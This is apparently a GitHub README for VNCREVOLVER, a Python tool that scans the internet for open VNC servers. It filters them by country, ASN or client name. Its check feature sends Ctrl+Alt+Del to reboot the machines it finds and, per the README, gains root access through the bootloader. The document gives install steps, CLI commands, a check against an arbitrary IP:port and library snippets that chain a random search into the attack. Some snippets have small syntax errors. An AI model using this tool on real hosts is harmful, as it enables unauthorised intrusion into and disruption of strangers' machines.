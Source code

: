 # VNCREVOLVER
## Automate search for open VNC servers
![vnc](https://github.com/cristiancmoises/vncrevolver/assets/86272521/18f2c15d-2232-47f4-b713-093af67daa7a)

# Table Of Contents

* [`Dependencies`](##Required)
* [`Install`](#Install)
* [`Features`](#Features)
* [`Usage`](#Commands)


## Required:
     pip install pydantic 
     pip install asyncvnc 
     pip install aiohttp

# Install:
    git clone https://github.com/cristiancmoises/vncrevolver
    cd vncrevolver

|  #Features:                                                                         |
|------------------------------------------------------------------------------------|
| 🌎  _Search for many open Vnc Servers around the world_                             |
| 📍 _Filter by country_                                                             |
| 🔢   _List more than one_                                                            |
| 🖥️  _List by Client name_                                                            |
| ✅  _Checks them for vulnerabilities by rebooting the machine via Ctrl+ALT+DEL, obtaining root access through the operating system bootloader easyly._ |

# Commands
## BASIC:
    python -m vncrevolver
    
## DEEP SEARCH:
    python -m vncrevolver --clientname ubuntu --count 10

## CTRL + ALT + DEL  | CHECK
    python -m vncrevolver --clientname ubuntu --count 10 --check_crt_alt_del

## CHECK A SPECIFIC ADDRESS:
    python -m vncrevolver --check_crt_alt_del 123.12.1.23:5901

> # START ME UP!   
    $ python -m vncrevolver --help

    usage: vncrevolver [-h] [--clientname CLIENTNAME] [--country COUNTRY] [--asn ASN]  [--count COUNT] [--check_crt_alt_del [CHECK_CRT_ALT_DEL]] [--show_failed] [--screen_delay SCREEN_DELAY]

    optional arguments:
    -h, --help            show this help message and exit
    --clientname CLIENTNAME
                        Filter by client name, note that it is case-sensitive!
    --country COUNTRY     Filter by ISO 3166-1 alpha-2 country code
    --asn ASN             Filter by ASN
    --count COUNT         Number of VNCs to find
    --check_crt_alt_del [CHECK_CRT_ALT_DEL]
                        If you specify this parameter without a value, only those VNCs from the search that pass the ctrl_alt_del check will be returned. If a value is passed, it must be a VNC
                        address that will be checked against ctrl_alt_del.
    --show_failed         Return VNCs that failed the ctrl_alt_del check
    --screen_delay SCREEN_DELAY
                        Delay between taking two screenshots in milliseconds

    If you specify one of the filtering parameters, a search by fitration will be launched, otherwise a search for random VNCs will be launched. If you specify the --count option, the required VNC
    number will be found. The number of found VNCs may be less than the --count parameter when searching with filtering.

> # Use filters:

    from typing import List
    from vncrevolver.search import VNC, search_filter

    hosts: List[VNC] = await search_filter(clientname='ubuntu')
    for vnc in hosts:
    print(vnc.ip, vnc,port)

> # Random Search
    from vncrevolver.search import VNC, search_random
    vnc: VNC = await search_random()
    print(vnc.ip, vnc.port)
  
> # Ctrl + ALT + DEL - CHECK UP!
    from vncrevolver.search import VNC, search_random
    from vncrevolver.vnc import check_crt_alt_del
    vnc: VNC = await search_random()
    print(await check_crt_alt_del(vnc.ip, vnc.port))

   
